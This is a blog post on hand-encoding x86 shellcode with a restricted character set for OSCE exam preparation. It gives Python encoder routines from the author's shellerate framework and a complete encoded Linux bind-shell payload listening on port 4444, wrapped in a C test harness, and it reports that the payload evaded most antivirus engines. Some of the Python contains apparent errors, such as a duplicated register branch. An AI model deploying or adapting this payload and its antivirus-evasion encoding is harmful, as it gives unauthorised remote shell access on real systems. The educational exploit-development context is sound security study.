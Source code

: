 ```yaml
---
layout: post
title: "A tale of a restricted charset shellcode generation"
image: assets/images/ancient_writing.jpg
bootstrap: true
tags: [offensive security, shellcode, asm, x86, python, shellerate]
categories: [ ]
author: thesp0nge
---
```


During my OSCE exam preparation I had to deal with shellcode writing experience
where very few allower characters were available. 

This brilliant talk by [@muts](https://twitter.com/muts), lead us to get in
touch with a new encoding technique. When you can't directly write words on the
stack, due to bad characters, you can eventually let a register to contained
the desired word and then push the register into the stack.

{% youtube gHISpAZiAm0 %}

As you can see from the video taken at Defcon 16, the code exploits the fact
that after the shellcode it has been written into the stack, very close to the
encoded payload, the execution flow continues until the decoded shellcode it
has been found.

Boom.

All the magic happens in two different pieces.

## Init a register to 0

We can't use XOR to init a register to zero. So we use math here and some
AND property to apply to reset all bits in our register.

On
[shellerate](https://github.com/thesp0nge/shellerate/blob/master/shellerate/asm_x86.py)
I created a zero\_with\_and routine. The basic idea is to get a random 32 bits
value, calculating its NOT and then build the shellcode. When the register it
has been put in AND with those two values, it will be set to zero.

{%highlight python%}
  def zero_with_and(reg="eax", badchar=[]):

  while True:
    first_and = secrets.token_hex(4)
    n_b = bin(int(first_and, 16))
    n_b_2 = bit_not(int(n_b, 2), 32)
    if n_b_2 > 0:
      break

  second_and = format(n_b_2, 'x').zfill(8)

  logging.debug("First AND: %s" % first_and)
  logging.debug("Second AND: %s" % second_and)

  first_and_hex = strings.from_string_to_payload(strings.swap(first_and))
  second_and_hex = strings.from_string_to_payload(strings.swap(second_and))

  if reg == "eax":
    return "\\x25"+first_and_hex+"\\x25"+second_and_hex
  
  if reg == "ebx":
    return "\\xb1\\xe3"+first_and_hex+"\\xb1\\xe3"+second_and_hex
  if reg == "ebx":
    return "\\xb1\\xe3"+first_and_hex+"\\xb1\\xe3"+second_and_hex
  if reg == "ecx":
    return "\\xb1\\xe1"+first_and_hex+"\\xb1\\xe1"+second_and_hex
  if reg == "edx":
    return "\\xb1\\xe2"+first_and_hex+"\\xb1\\xe2"+second_and_hex
{%endhighlight%}

## Writing a word on the stack
We can't write a word on the stack because of a restricted alphabet. We will
get rid of this by calculating the
[two-complement](https://en.wikipedia.org/wiki/Two%27s_complement) of the word
we want to write and by finding 2 or 3 values that when added will result in
our word's complement.

{% highlight python %}
  def generate_add_eax_sum_shellcode(result):
  compl_two = int("FFFFFFFF", 16) - int(result, 16) + 1

  c = find_encoded_sequence(compl_two)
  c2_h = "0x{:08x}".format(compl_two) 
  f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
  f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))

  if (c2_h != f_sum):
    logging.warning("can't find a good encoded sequence using 2 operands... trying with 3")
    c = find_encoded_sequence(compl_two, True)
    f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
    f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))

    if(c2_h != f_sum):
      logging.error("can't find a good encoded sequence. Please consider changing this shellcode sequence" + result)
      return ""

  logging.debug("obtaining 0x{0} with this ASM sequence".format(result))
  for i in ("554e4d4a", "2a313235"):
    logging.debug("AND EAX, 0x{0}".format(i))
  for j in f:
    logging.debug("SUB EAX, 0x{0}".format(j))
  logging.debug("PUSH EAX")

  shellcode = asm_x86.zero_with_and("eax")
  for i in f:
    shellcode += "\\x2d" + strings.from_string_to_payload(strings.swap(i))
  shellcode+="\\x50"

  return shellcode
{%endhighlight%}


The whole generate.py source code is available on this gist.

{% gist 8daae5ae9656779b75a479e72f2a4492 %}

## Put all the pieces together with shellerate

This can be a really good shellcode encoding mechanism. That's why I automated
this process and integrated it with
[shellerate](https://github.com/thesp0nge/shellerate/tree/master/shellerate).

I asked my framework to generate a bind shell shellcode for Linux operating
system. The shell will listen on port 4444 for incoming connections.

Than I padded my shellcode, since I want to operate on 4 bytes long words and I
splitted my shellcode into words.

I encoded all the words using a restricted allowed charset alphabet and I
eventually appended a jump ESP call in order to use my shellcode in a C helper
like this:

{% highlight C %}
#include<stdio.h>
#include<string.h>

unsigned char code[]="\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x54\x58\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x02\x01\x01\x01\x2d\x7e\x6e\x6e\x6e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x32\x01\x01\x36\x2d\x7e\x01\x75\x7e\x2d\x7e\x4c\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x01\x01\x01\x2d\x6e\x4e\x01\x4f\x2d\x7e\x7e\x34\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x01\x2d\x6d\x65\x60\x75\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x52\x2d\x5c\x66\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x32\x31\x52\x52\x2d\x7e\x66\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x09\x01\x50\x01\x2d\x7e\x05\x7e\x3e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x43\x01\x01\x38\x2d\x7e\x31\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x02\x01\x01\x01\x2d\x7e\x4f\x01\x01\x2d\x7e\x7e\x3d\x4d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x50\x01\x01\x2d\x3c\x7e\x35\x4d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x35\x01\x01\x2d\x6f\x7e\x01\x01\x2d\x7e\x7e\x7c\x74\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x36\x01\x31\x01\x2d\x7e\x01\x6f\x01\x2d\x7e\x73\x7e\x73\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x01\x01\x2d\x31\x7e\x31\x01\x2d\x62\x7e\x7c\x74\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x36\x01\x2d\x31\x7e\x7e\x01\x2d\x63\x7e\x7e\x7c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x50\x01\x2d\x32\x7e\x7e\x35\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x31\x01\x01\x2d\x01\x6f\x01\x70\x2d\x75\x7e\x4a\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x31\x31\x31\x7e\x2d\x72\x67\x63\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x70\x2d\x7e\x68\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x01\x01\x2d\x31\x7e\x4f\x01\x2d\x65\x7e\x7e\x34\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x32\x7e\x75\x3b\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x02\x2d\x01\x7e\x01\x7e\x2d\x4b\x7e\x4c\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x02\x2d\x31\x01\x31\x7e\x2d\x68\x45\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x76\x3d\x75\x3c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x01\x01\x2d\x7e\x3e\x75\x3b\x50\xff\xe4";

int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
{% endhighlight %}

Please note that I wrote my shellcode in a reverse order, from the last word to
the first. This way, since the stack is growing backwards, the ESP register
will point to the beginning of my decoded shellcode at the end of the process.

You can see the process in action here. As you can see, the shellcode is
working and a bind shellcode was listening on port 4444.

{% asciicast 241806 %}

What about anti virus tool then? I submitted my a.out file to Virus Total and
only 3 engines out of 58 detected my encoded shellcode: [pretty sweet
result](https://www.virustotal.com/gui/file/5045aee367cc29a8fcf4889c0935f039ed76550cb0f1ba743f9d20b9d2f1dc99/detection).

## Off by one

Next steps will be:
* implementing this encoder into shellerate and release a new version of the
  framework (with a working shellerate binary script of course)
* make the AND process to use random values, so to increase shellcode entropy
* having fun with other register mathematical instructions so to encode with
  SUB, MUL, DIV, ...
